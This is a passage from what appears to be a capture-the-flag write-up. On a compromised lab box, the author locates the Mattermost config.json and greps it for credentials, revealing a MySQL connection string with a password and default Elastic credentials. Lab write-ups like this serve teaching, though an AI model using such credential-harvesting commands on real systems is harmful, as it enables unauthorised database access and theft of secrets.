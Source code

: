 ##### Gaining DB access
At this point the best method of attack is to look through the configurations for OSTicket and MatterMost. I google matter most first, and found a reference to a ```config/config.json```. Let's find where it's located
```bash
maildeliverer@Delivery:~$ find / -name config.json 2>/dev/null
/opt/mattermost/config/config.json
```

Let's look for some interesting lines in there
```bash
maildeliverer@Delivery:~$ cat /opt/mattermost/config/config.json | grep -i 'user\|pass'
        "EnablePostUsernameOverride": false,
        "EnableUserAccessTokens": false,
        "TimeBetweenUserTypingUpdatesMilliseconds": 5000,
        "EnableUserTypingMessages": true,
        "EnableUserStatuses": true,
        "EnableAPIUserDeletion": false,
        "MaxUsersPerTeam": 5000,
        "EnableUserCreation": true,
        "EnableUserDeactivation": false,
        "UserStatusAwayTimeout": 300,
        "TeammateNameDisplay": "username",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "PasswordSettings": {
        "EnableSignInWithUsername": true,
        "SMTPUsername": "",
        "SMTPPassword": "",
        "VaryByUser": false,
        "UserNoticesEnabled": true,
        "UserApiEndpoint": ""
        "UserApiEndpoint": "https://people.googleapis.com/v1/people/me?personFields=names,emailAddresses,nicknames,metadata",
        "Scope": "User.Read",
        "UserApiEndpoint": "https://graph.microsoft.com/v1.0/me",
        "BindUsername": "",
        "BindPassword": "",
        "UserFilter": "",
        "UsernameAttribute": "",
        "UsernameAttribute": "",
        "CloudUserLimit": 0,
        "MaxUsersForStatistics": 2500
        "Username": "elastic",
        "Password": "changeme",
        "UserIndexReplicas": 1,
        "UserIndexShards": 1,
        "SmtpUsername": "",
        "SmtpPassword": ""
    }
```
